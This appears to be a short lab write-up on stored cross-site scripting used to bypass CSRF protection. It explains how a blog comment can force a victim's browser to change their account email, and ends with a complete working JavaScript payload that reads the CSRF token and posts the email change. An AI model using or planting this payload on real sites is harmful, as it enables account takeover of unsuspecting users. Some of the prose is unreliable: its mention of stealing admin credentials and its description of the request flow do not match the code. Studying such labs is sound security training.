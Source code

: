 *This information is only for the purposes of education and skills development. GET and POST are not acronyms.*

**Objective**
Change another user's email address.

**XSS**
- In Cross Site Scripting or *code injection*, malicious JavaScript payload is injected across different code sites within the same website. 
- As the attack targets the user's browser session, it is client side instead of server side.

**Point of Entry**
- Prospective victim looks at all blogpost comments.
- Blogpost comment function is point of entry to exfiltrate admin username and password.

**Barrier to entry** 
- Anti CSRF token for CSRF protection - *csrf* in requests and responses.

**Bypassing Barrier to Entry**
- Post email address change exploit script in template as comment on a chosen blogpost. 
- On opening the chosen blogpost the exploit is triggered. The unsuspecting user's csrf is copied from POST request to open blogpost page.
- Momentarily, copied csrf is used in POST request to change user's email address. 

**Template**
`<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>`